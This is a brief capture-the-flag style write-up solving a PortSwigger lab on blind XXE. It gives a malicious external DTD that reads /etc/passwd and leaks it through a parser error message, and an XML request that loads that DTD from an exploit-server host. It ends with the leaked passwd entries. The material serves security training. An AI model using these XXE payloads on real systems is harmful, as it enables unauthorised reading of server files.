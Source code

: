 
# Lab: Exploiting blind XXE to retrieve data via error messages
# https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages


```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

# Store this code in your exploit server's body part.
```
```bash
# Send check stock request to repeater and change xml part.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0af200ea0351e75f81f3e7e0013800dd.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

# Send it.

"XML parser exited with error: java.io.FileNotFoundException: /invalid/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

# We solved the lab!

```
